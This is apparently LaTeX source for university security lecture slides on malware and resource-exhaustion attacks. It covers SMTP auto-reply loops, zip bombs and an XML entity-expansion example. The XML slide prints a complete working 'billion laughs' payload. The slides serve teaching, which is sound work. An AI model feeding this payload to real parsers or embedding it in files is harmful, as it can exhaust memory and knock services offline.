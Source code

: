 \documentclass{beamer}
\title{Malware}
\subtitle{Lecture 10 \\ Computer Security DD2395}
\author[R. Guanciale]{
  Roberto Guanciale\\
  robertog@kth.se
}
\date{2013-11-04}
\begin{document}
\begin{frame}{SMTP}
  \begin{itemize}
  \item A sends: from: c@C to: b@B hello
  \item B sends: from: b@B to: c@C vacation message
  \item C sends: from: c@C to: b@B vacation message
  \item Quota full
  \item User not allowed e.g. SMTP fax proxy
  \item Non existing user
  \end{itemize}
\end{frame}

\begin{frame}{ZIP}
  \begin{itemize}
  \item Infinite recursive zip: e.g. r.zip
  \item Bombs (e.g. non recursive files)    
    \begin{itemize}
      \item gzip: 100 GB, 97 MB compressed, 1000:1 ration
      \item bzip2: 100 GB, 69 KB, $1.6*10^6$:1
      \item PNG image: 19000 x 19000, 1-bit (45 MB) expand in 24-bit
        color to 1 GB, 44 KB compressed, 1000:1
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}[fragile]{XML}
  \footnotesize \begin{verbatim}
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
  \end{verbatim}
  \begin{itemize}
    \item 1 KB file
    \item 3GB XML (DOM worst)
  \end{itemize}
\end{frame}
\end{document}
